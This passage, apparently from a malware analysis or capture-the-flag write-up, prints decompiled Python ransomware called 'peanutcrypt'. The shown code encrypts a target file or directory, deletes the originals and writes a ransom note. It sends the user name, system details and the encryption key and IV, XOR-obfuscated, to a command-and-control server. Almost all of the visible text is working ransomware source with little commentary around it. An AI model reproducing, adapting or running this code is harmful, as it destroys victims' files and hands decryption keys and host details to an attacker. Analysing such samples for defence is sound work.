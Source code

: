                 finished = True
            out_file.write(cipher.encrypt(chunk))

    os.remove(path)


def encode_message(message):
    encoded_message = b''
    for i, char in enumerate(message):
        encoded_message += bytes([ord(char) ^ super_secret_encoding_key[(i % 16)]])
    else:
        return encoded_message


def send_status(status):
    message = f"{status} {uid} {getpass.getuser()} {''.join(platform.uname())}"
    encoded_message = encode_message(message)
    udp_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    udp_socket.sendto(encoded_message, c2)


def send_key(key, iv):
    message = f"{uid} " + key.hex() + ' ' + iv.hex()
    encoded_message = encode_message(message)
    tcp_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    tcp_socket.connect(c2)
    print(encoded_message)
    tcp_socket.sendall(encoded_message)
    tcp_socket.close()


if __name__ == '__main__':
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <file/directory>")
        sys.exit(1)
    else:
        path = sys.argv[1]
        hash = hashlib.sha256()
        hash.update(os.urandom(16))
        uid = hash.hexdigest()
        send_status('WAITING')
        time.sleep(random.randint(60, 120))
        send_status('ENCRYPTING')
        key = os.urandom(16)
        iv = os.urandom(16)
        if os.path.isfile(path):
            encrypt_file(path, key, iv)
            write_ransom(path)
        if os.path.isdir(path):
            lets_not_do_this or encrypt_reccursive(path, key, iv)
    send_key(key, iv)
    send_status('DONE')
# okay decompiling ./peanutcrypt.pyc
{% endhighlight %}
